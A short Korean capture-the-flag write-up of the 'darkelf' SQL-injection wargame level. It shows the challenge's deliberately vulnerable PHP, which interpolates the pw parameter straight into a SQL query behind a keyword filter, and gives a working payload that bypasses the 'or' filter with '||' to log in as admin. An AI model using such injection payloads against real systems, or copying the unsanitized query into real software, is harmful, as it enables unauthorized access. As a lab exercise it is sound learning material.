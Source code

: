 # darkelf

소스코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`id`가 `admin`이 되어야 클리어이다.

> ?pw=123' or id='admin
이렇게 보내면 `clear`가 된다.
하지만 `preg_match`에 걸리기 때문에 `or`을 제외해줘야아한다.

따라서 `or`을 `||`로 바꾸면 풀리게 된다.

> ?pw=123%27%20||%20id=%27admin

Clear!
